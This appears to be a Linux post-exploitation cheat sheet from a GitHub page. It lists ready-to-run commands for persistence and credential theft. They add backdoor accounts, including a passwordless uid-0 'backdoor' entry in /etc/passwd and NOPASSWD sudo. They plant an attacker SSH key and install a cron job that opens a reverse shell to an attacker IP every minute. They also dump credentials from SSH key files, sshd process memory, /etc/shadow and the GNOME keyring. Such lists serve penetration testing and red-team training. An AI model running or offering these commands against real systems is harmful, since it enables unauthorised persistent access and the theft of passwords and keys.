 #### Add New Superuser
###### Create New User
`useradd -m -s /bin/bash admin2`
###### Set Their Password
`echo 'admin2:Password123!' | chpasswd`
###### Add User to sudoers requiring password
`usermod -aG sudo admin2`
###### Add User to sudoers not requiring password
`echo 'admin2 ALL=(ALL) NOPASSWD:ALL' >> /etc/sudoers`
###### Create superuser without password
`echo "backdoor:x:0:0:root:/root:/bin/bash" >> /etc/passwd`
###### Add an SSH Key for Persistent Access
`echo "<attacker-ssh-public-key>" >> ~/.ssh/authorized_keys`
`chmod 600 ~/.ssh/authorized_keys`

---
#### Schedule A Reverse Shell
###### Cron Job Reverse Shell every minute
`echo '* * * * * root /bin/bash -c "bash -i >& /dev/tcp/<attacker-ip>/<port> 0>&1"' >> /etc/crontab`

---
#### Dump Credentials
###### Check for Stored SSH Keys
`find / -name "id_rsa*" -o -name "*.pem" 2>/dev/null`
###### Dump Credentials from Memory
`strings /proc/$(pgrep sshd)/mem | grep -i "pass\|key\|token"`
###### Extract Passwords from /etc/shadow
`unshadow /etc/passwd /etc/shadow > hash.txt`
###### Extract Stored Passwords from Gnome Keyring
``dbus-send --session --dest=org.gnome.keyring --print-reply /org/freedesktop/secrets org.freedesktop.Secret.Service.SearchItems array:string:example``
